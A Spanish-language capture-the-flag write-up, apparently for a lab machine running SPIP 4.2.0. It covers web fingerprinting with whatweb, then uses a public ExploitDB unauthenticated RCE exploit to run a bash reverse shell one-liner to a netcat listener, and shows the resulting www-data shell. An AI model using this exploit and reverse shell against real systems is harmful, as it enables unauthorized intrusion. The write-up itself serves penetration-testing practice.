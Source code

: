 Veremos que tendremos un puerto `80` en el que aloja una pagina web, si entramos dentro de la misma veremos una pagina web normal con el `software` llamado `spip`, por lo que vamos a realizar un poco de `fuzzing` empezando con ver la tecnologia web que lleva por detras y que versiones tiene la misma.

## Whatweb

```shell
whatweb http://<IP>/
```

Info:

```
http://192.168.5.58/ [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[192.168.5.58], JQuery, MetaGenerator[SPIP 4.2.0], SPIP[4.2.0][http://192.168.5.58/local/config.txt], Script[text/javascript], Title[Mi sitio SPIP], UncommonHeaders[composed-by,x-spip-cache]
```

Por lo que vemos en esta linea...

```
MetaGenerator[SPIP 4.2.0]
```

Dicho `software` esta utilizando la version `4.2.0`, vamos a investigar si dicha version es vulnerable a algo.

## Escalate user www-data

Si buscamos bien veremos que si lo es, justamente en `ExploitDB` veremos un `exploit` asociado a dicha vulnerabilidad en la que se puede realizar un `RCE` de forma no autenticada, por lo que vamos a utilizarlo.

URL = [Exploit SPIP 4.2.0](https://www.exploit-db.com/exploits/51536)

Una vez que nos lo hayamos descargado el archivo, vamos a utilizarlo de la siguiente forma:

```shell
python3 51536.py -u http://<IP>/ -c 'bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"'
```

Antes de enviarlo nos pondremos a al escucha de esta forma:

```shell
nc -lvnp <PORT>
```

Ahora si lo enviamos y volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.58] 43634
bash: cannot set terminal process group (840): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pipy:/var/www/html$ whoami
whoami
www-data
```
